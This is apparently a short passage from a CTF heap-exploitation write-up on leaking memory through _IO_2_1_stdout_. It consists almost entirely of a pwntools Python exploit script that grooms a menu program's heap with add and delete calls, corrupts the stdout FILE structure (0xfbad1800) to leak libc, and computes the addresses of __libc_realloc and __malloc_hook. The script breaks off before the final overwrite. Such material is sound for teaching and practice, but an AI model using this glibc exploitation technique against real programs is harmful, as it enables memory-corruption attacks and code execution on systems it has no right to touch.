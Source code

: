 ![](/picture/heap_related/IO_2_1_stdout_泄露内存/5.png)



exp

```python
from pwn import*
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=0.5)

#p = remote('',)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def add(name_size,name='a',message='b'):
	p.sendlineafter('choice : ','1')
	p.sendlineafter('your name: \n',str(name_size))
	p.sendafter('Your name:\n',name)
	p.sendlineafter('Your message:\n',message)
def delete(idx):
	p.sendlineafter('choice : ','2')
	p.sendlineafter('index:',str(idx))
def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def pwn():
	add(0x60)
	add(0x90)
	add(0x60)
	delete(1)
	add(0x60,'\xdd\x25')
	delete(0)
	delete(2)
	delete(0)
	add(0x60,'\x00')
	add(0x60)
	add(0x60)
	add(0x60)
	add(0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
	libcbase=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c5600
	libc_realloc = libcbase + libc.sym['__libc_realloc']
	malloc_hook = libcbase + libc.sym['__malloc_hook']
```